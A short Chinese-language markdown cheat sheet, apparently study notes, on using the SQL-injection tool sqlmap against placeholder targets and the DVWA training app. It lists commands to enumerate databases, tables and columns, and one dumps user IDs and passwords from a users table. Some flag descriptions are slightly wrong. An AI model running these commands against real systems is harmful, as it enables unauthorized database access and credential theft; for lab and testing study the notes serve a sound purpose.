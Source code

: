 <!--
title: 05-SqlMap
sort:
-->

## 基础使用

- get 方法

> `-Raw`: 文件
>
> `-Parameter`: 参数
>
> `--dbs`: 全部数据库
>
> `sqlmap -r xxx -p pwd --dbs`

- Post 方法

> `--form`：form 表单
>
> `--method`：方法
>
> `--data`：数据
>
> `sqlmap -u http://xxx/xxx.php --method=POST --forms --data="username" --dbs`

- 使用 url

> `-Url`: 网址
>
> `sqlmap -u http://xxx -p pwd --dbs`

- 详细信息

> `-Database`: 数据库名称
>
> `-Table`: 数据表名称
>
> `-Columns`: 行名称
>
> 指定数据库下的数据表
>
> `sqlmap -r xxx -p id -D dvwa --tables`
>
> 表中的全部列
>
> `sqlmap -r xxx -p id -D dvwa -T users --columns`
>
> 表中的具体字段
>
> `sqlmap -r xxx -p id -D dvwa -T users -C user_id,avatar,password --dump`

- 直连

> `--users`: 用户信息
>
> `sqlmap -d "musql://root:1234@127.0.0.1:3306/dbname" -f --banner`

## 设置

- 请求方法

> `--data="id=1"`
>
> `--method=POST`
